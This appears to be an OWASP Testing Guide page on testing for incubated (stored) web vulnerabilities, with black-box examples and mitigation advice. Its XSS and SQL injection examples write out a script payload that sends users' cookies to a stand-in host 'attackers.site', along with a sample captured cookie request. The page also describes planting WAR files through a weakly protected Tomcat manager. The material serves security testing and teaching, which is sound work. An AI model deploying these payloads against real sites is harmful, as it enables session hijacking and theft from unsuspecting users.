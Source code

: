 Summary
-------

Also often refered to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

-   The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
-   Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, **incubated attacks** can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

-   File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting CVE-2004-0200, png images exploiting CVE-2004-0597, executable files, site pages with active component, etc.)

<!-- -->

-   Cross-site scripting issues in public forums posts (see [Testing for Stored Cross\_site scripting (OTG-INPVAL-002)](Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002) "wikilink") for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.

<!-- -->

-   SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).

<!-- -->

-   Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

How to Test
-----------

### Black Box testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1\. Introduce *JavaScript* code as the value for the vulnerable field, for instance:

`<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`\
`  `

2\. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at *attackers.site* host listening for all incoming connections.

3\. When users browse the vulnerable page, a request containing their cookie (*document.cookie* is included as part of the requested URL) will be sent to the *attackers.site* host, such as the following:

` - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;`\
`     %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;`\
`     TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1`

4\. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in Section 4.2 [Testing for SQL Injection](Testing_for_SQL_Injection_(OTG-INPVAL-006) "wikilink"). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1\. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a *footer* table at the database with all footers for the web site pages, including a *notice* field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the *notice* field at the *footer* table in the database.

` SELECT field1, field2, field3`\
`  FROM table_x`\
`  WHERE field2 = 'x';`\
`     UPDATE footer`\
`     SET notice = 'Copyright 1999-2030%20`\
`         <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'`\
`     WHERE notice = 'Copyright 1999-2030';`

2\. Now, each user browsing the site will silently send his cookies to the *attackers.site* (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray Box testing

Gray/white testing techniques will be the same as previously discussed.

-   Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisited via a “back door”.

<!-- -->

-   To combat the “back door” issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

<!-- -->

-   See the [Data Validation](Data_Validation_%28Code_Review%29#Data_validation_strategy "wikilink") section of the Code review guide.

Tools
-----

-   XSS-proxy - <http://sourceforge.net/projects/xss-proxy>
-   Paros - <http://www.parosproxy.org/index.shtml>
-   Burp Suite - <https://portswigger.net/burp/proxy.html>
-   Metasploit - <https://www.metasploit.com/>

References
----------

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

**Advisories**\

-   CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests - <https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf>
-   Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability - <https://www.cvedetails.com/cve/CVE-2006-3914/>

**Whitepapers**\

-   Web Application Security Consortium “Threat Classification, Cross-site scripting” - <http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml>

